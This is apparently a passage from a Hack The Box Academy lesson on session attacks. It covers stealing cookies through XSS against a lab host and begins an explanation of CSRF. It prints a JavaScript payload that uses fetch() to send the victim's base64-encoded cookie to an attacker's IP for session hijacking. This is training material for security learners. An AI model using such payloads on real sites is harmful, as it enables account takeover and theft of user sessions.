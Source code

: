 By the time you hold your mouse over "test," you should now see the below in your attacking machine:
![54](https://academy.hackthebox.com/storage/modules/153/54.png)

Please note that the cookie is a Base64 value because we used the `btoa()` function, which will base64 encode the cookie's value. We can decode it using `atob("b64_string")` in the Dev Console of Web Developer Tools, as follows:
![55](https://academy.hackthebox.com/storage/modules/153/55.png)

You can now use this stolen cookie to hijack the victim's session!

We don't necessarily have to use the `window.location()` object that causes victims to get redirected. We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.

Find an example of such a payload below:
```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

Give it a try...

If xss.htb.net was utilizing SSL encryption, an attacker would still be able to capture cookies through XSS.

It is about time we jump to another session attack called Cross-Site Request Forgery (CSRF or XSRF).

## Cross-Site Request Forgery (CSRF or XSRF)

Cross-site requests are common in web applications and are used for multiple legitimate purposes.

Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated. This attack is usually mounted with the help of attacker-crafted web pages that the victim must visit or interact with, leveraging the lack of anti-CSRF security mechanisms. These web pages contain malicious requests that essentially inherit the identity and privileges of the victim to perform an undesired function on the victim's behalf. CSRF attacks generally target functions that cause a state change on the server but can also be used to access sensitive data.

A successful CSRF attack can compromise end-user data and operations when it targets a regular user. If the targeted end-user is an administrative one, a CSRF attack can compromise the entire web application.

During CSRF attacks, the attacker does not need to read the server's response to the malicious cross-site request. This means that [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) cannot be considered a security mechanism against CSRF attacks.

Reminder: According to Mozilla, the same-origin policy is a critical security mechanism that restricts how a document or script loaded by one origin can interact with a resource from another origin. The same-origin policy will not allow an attacker to read the server's response to a malicious cross-site request.

A web application is vulnerable to CSRF attacks when:

* All the parameters required for the targeted request can be determined or guessed by the attacker
* The application's session management is solely based on HTTP cookies, which are automatically included in browser requests
